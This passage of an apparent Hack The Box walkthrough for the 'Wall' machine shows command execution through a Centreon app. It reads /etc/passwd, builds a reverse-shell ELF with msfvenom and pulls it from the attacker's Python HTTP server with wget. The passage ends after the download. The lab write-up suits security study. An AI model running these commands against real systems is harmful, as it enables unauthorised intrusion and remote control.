 ``` bash
cat /etc/passwd
```

![passwd.png](/assets/htb_stuff/wall/passwd.png)

And hit the play icon to prove code execution.

![poc.png](/assets/htb_stuff/wall/poc.png)

From here I tried a few different techniques to pop a shell, but many of the commands returned with warnings/failed executions.

My suspicions of a whitelist grew and I decided to make  custom payload with msfvenom.
First I needed to determine the arch of Wall:

``` bash
uname -a
```

Showed me x86_64, the same as my attacking system:

```
Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

I decided to make an x64 reverse shell with msfvenom on my kali with:

``` bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$ATTACK LPORT=443 -f elf > shell443.elf
```

Giving me a nice compact linux binary that matches Wall's arch:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

In my working on a new terminal directory I spawn a debugging HTTP server in python with:

``` bash
sudo python -m SimpleHTTPServer 80
```

and in the Centreon app I try to pull it over with:

``` bash
wget http://10.10.14.37/shell443.elf
```

I see a 200 on my attacking system:

```
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [24/Nov/2019 16:43:59] "GET /shell443.elf HTTP/1.1" 200 -
```
